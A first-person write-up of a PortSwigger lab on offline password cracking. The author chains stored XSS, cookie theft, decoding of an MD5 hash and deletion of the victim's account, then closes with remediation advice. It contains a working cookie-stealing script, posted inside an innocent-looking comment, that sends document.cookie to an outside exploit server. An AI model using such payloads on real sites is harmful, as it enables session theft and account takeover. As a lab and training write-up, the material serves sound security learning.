









# Lab: Offline Password Cracking

**Lab link:**  
https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-offline-password-cracking#

---

## Goal

The goal of this lab was to:

1. Get the `stay-logged-in` cookie of `carlos`.
2. Crack the password.
3. Delete the account.

---

## Given Information

The lab gave me the following information:

1. `wiener:peter` are valid credentials for an account.
2. There is no password list provided.
3. The site is vulnerable to XSS.

---

## Initial Observations

After logging in as `wiener:peter`, I noticed that the application gives me a `stay-logged-in` cookie.



After looking at the cookie, I found that it is simply:

```text
base64(wiener:md5sum(peter))
```

So the general formula for the cookie becomes:

```text
base64(username:md5sum(password))
```

This means that if I can get a user's `stay-logged-in` cookie, I can decode it and extract the username and the MD5 hash of the password.

The problem is that I do not know any probable password list for `carlos`, so I cannot just generate test cookies and try them.

I have to grab one myself.

---

## Hypothesis

I need to get Carlos's cookie via XSS.

At this point, I currently do not know exactly how to do it, so for that I will research a bit over the internet.

To first confirm that XSS is working, I will write a simple comment like this:

```html
<script>alert("Expect ME!")</script>
```

I put this inside a comment.



Then whenever someone revisits the page, it will show a popup with the text:

```text
Expect ME!
```



Pretty cool right?

I can change the site's functionality even though I did not even touch the code.

If you are intrigued about how XSS works, then here is a link to a detailed blog for you to read from none other than YesWeHack:

https://www.yeswehack.com/learn-bug-bounty/xss-attacks-exploitation-ultimate-guide

---

## Researching the Correct XSS Type

After doing some research over the internet, I found out that for this purpose we have to use **stored XSS**.

The reason is simple: I need my payload to stay on the page. Then, when another user visits that page, their browser will execute my JavaScript.

In this case, the victim I want is `carlos`.

---

## Building the Cookie-Stealing Payload

I can store a `fetch` command in the comment section.

The basic payload is:

```javascript
fetch(`//__ATTACKER_SERVER__/?data=${btoa(document.cookie)}`)
```

This will make a GET request to the attacker's server.

The important part is this:

```javascript
document.cookie
```

This gets the cookies from the victim's browser.

Then this part:

```javascript
btoa(document.cookie)
```

Base64-encodes the cookies.

Cookies often contain symbols that can break the URL, so encoding them in Base64 is safer.

---

## Getting the Exploit Server Address

Now I need to copy the address of my exploit server.



So the fetch command becomes:

```javascript
fetch(`https://exploit-0a0700dd044685cc8047029901b100f2.exploit-server.net/exploit/?data=${btoa(document.cookie)}`)
```

---

## Injecting the Payload as a Normal-Looking Comment

Now I put it into a normal-looking comment:

```html
I kinda agree with the idea ngl.
<script>fetch(`https://exploit-0a0700dd044685cc8047029901b100f2.exploit-server.net/exploit/?data=${btoa(document.cookie)}`)</script>
```



### Payload Breakdown

1. The first line is to disguise this XSS attempt as a normal-looking comment.
2. The `<script>` tag is for running it as an inline JavaScript script.
3. `fetch` is for making a GET request to the given endpoint.
4. The endpoint has `data=base64(cookie)`.
5. Cookies often contain symbols that can break the URL, so the cookie is encoded in Base64.
6. `document.cookie` gets the cookies from the victim's browser.

---

## Main Idea Behind This

Now this fetch request is injected into the page.

Every time the page renders my comment, this request will run in the background.

I hope that `carlos` will visit this page. As soon as he does, this request will send a GET request to my exploit server.

I can view the request in my logs because the server first logs the request and then decides whether a specific endpoint exists or not.

So it is a safe bet that even if the endpoint does not really exist, I will still have the cookies in the logs.

---

## Checking the Exploit Server Logs

After waiting and checking the logs, I see a request containing data.



The log shows this value in the `data` field of one of the requests:

```text
c2VjcmV0PUUwMUVlMDlxclZsSkpNVktNWHdLTnRCODd4VzJBQjY2OyBzdGF5LWxvZ2dlZC1pbj1ZMkZ5Ykc5ek9qSTJNekl6WXpFMlpEVm1OR1JoWW1abU0ySmlNVE0yWmpJME5qQmhPVFF6
```

This must be of some valid user.

Now let’s decode it.

---

## Decoding the Captured Cookie

I used `base64 -d` to decode the captured value:

```bash
printf "c2VjcmV0PVpIQ2VBNzRaYmx4NTV6U1lXbFBlNmRLZU93YkZFQ1RyOyBzdGF5LWxvZ2dlZC1pbj1ZMkZ5Ykc5ek9qSTJNekl6WXpFMlpEVm1OR1JoWW1abU0ySmlNVE0yWmpJME5qQmhPVFF6" | base64 -d
```

The output was:

```text
secret=ZHCeA74Zblx55zSYWlPe6dKeOwbFECTr; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz%
```

Now I need to further decode the `stay-logged-in` cookie:

```bash
printf "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
```

The output was:

```text
carlos:26323c16d5f4dabff3bb136f2460a943%
```

Lucky me, it is indeed of `carlos`.

The right part is:

```text
26323c16d5f4dabff3bb136f2460a943
```

Since it is 32 characters long and alphanumeric, it is highly probably an MD5 hash.

---

## Cracking the MD5 Hash

The hash is:

```text
26323c16d5f4dabff3bb136f2460a943
```

If it is not salted, then it would be pretty easy to look up its dehash by a quick Google search.

The quick Google search gave it to be:

```text
onceuponatime
```



So now I have Carlos's password:

```text
carlos:onceuponatime
```

---

## Logging In as Carlos

Instead of placing the cookie manually in the browser, I decided to try logging into Carlos's account directly using the cracked password.

Credentials:

```text
Username: carlos
Password: onceuponatime
```

And it worked.

Carlos account logged in.



---

## Deleting the Account

Now I just need to delete the account.

The application asks for the password before deleting the account.

Since I already cracked the password, I entered:

```text
onceuponatime
```

After submitting it, the account was deleted and the lab was completed.

---

## Vulnerability Summary

This lab had multiple issues chained together:

1. The `stay-logged-in` cookie used a predictable format.
2. The password was stored as an unsalted MD5 hash inside the cookie.
3. The site was vulnerable to stored XSS.
4. The XSS allowed me to steal another user's cookie.
5. The stolen cookie revealed Carlos's MD5 password hash.
6. Since the hash was unsalted, it was easy to crack using a public hash lookup.
7. After cracking the password, I could log in as Carlos and delete the account.

The cookie format was:

```text
base64(username:md5(password))
```

For Carlos, the decoded cookie was:

```text
carlos:26323c16d5f4dabff3bb136f2460a943
```

And the cracked password was:

```text
onceuponatime
```

---

## Remediation / Fix

To fix this kind of vulnerability, the application should not store password hashes inside client-side cookies.

The application should also avoid using weak hashing algorithms like MD5 for passwords. Passwords should be hashed using strong password hashing algorithms such as `bcrypt`, `scrypt`, or `Argon2`, with proper salting.

For the `stay-logged-in` feature, the application should use a secure, random, server-side token instead of storing predictable user information in the cookie.

The application should also properly sanitize and encode user input to prevent stored XSS. Comments should not be allowed to execute JavaScript in another user's browser.

A better approach would be:

```text
stay-logged-in=random-secure-token
```

The server should store and validate this token securely on the backend.

---

## Lessons Learned

- A `stay-logged-in` cookie should never contain predictable user information.
- MD5 is weak and should not be used for password storage.
- If a hash is unsalted, it can often be cracked very quickly.
- Stored XSS is dangerous because the payload stays on the page and affects other users.
- `document.cookie` can be used by XSS payloads to steal cookies if the cookies are not properly protected.
- Encoding the stolen cookie with Base64 helps avoid URL-breaking characters.
- A vulnerability chain can be more powerful than a single bug.

---

## Final Summary

This lab demonstrated how a weak `stay-logged-in` cookie can be exploited when combined with stored XSS.

First, I observed that the cookie was using the format:

```text
base64(username:md5(password))
```

Since I did not know Carlos's password and had no password list, I used stored XSS to steal his cookie. The stolen cookie contained Carlos's username and MD5 password hash. After decoding the cookie and cracking the hash, I found the password:

```text
onceuponatime
```

Then I logged into Carlos's account and deleted it to complete the lab.

